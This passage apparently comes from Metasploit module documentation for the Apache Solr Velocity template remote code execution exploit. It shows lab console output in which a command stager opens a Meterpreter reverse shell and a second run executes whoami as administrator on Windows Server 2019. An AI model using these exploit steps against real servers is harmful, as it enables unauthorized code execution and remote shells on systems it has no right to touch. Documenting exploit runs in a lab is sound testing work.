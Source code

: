 ```
[*] Command Stager progress -  14.10% done (14320/101541 bytes)
[*] Command Stager progress -  21.15% done (21480/101541 bytes)
[*] Command Stager progress -  28.21% done (28640/101541 bytes)
[*] Command Stager progress -  35.26% done (35800/101541 bytes)
[*] Command Stager progress -  42.31% done (42960/101541 bytes)
[*] Command Stager progress -  49.36% done (50120/101541 bytes)
[*] Command Stager progress -  56.41% done (57280/101541 bytes)
[*] Command Stager progress -  63.46% done (64440/101541 bytes)
[*] Command Stager progress -  70.51% done (71600/101541 bytes)
[*] Command Stager progress -  77.56% done (78760/101541 bytes)
[*] Command Stager progress -  84.62% done (85920/101541 bytes)
[*] Command Stager progress -  91.67% done (93080/101541 bytes)
[*] Command Stager progress -  98.67% done (100188/101541 bytes)
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Command Stager progress - 100.00% done (101541/101541 bytes)
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.155:50211) at 2020-03-29 00:06:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, with payload `cmd/windows/generic`
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 4
TARGET => 4
msf5 exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] 2k19dtctr\administrator
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/solr_velocity_rce) >
```
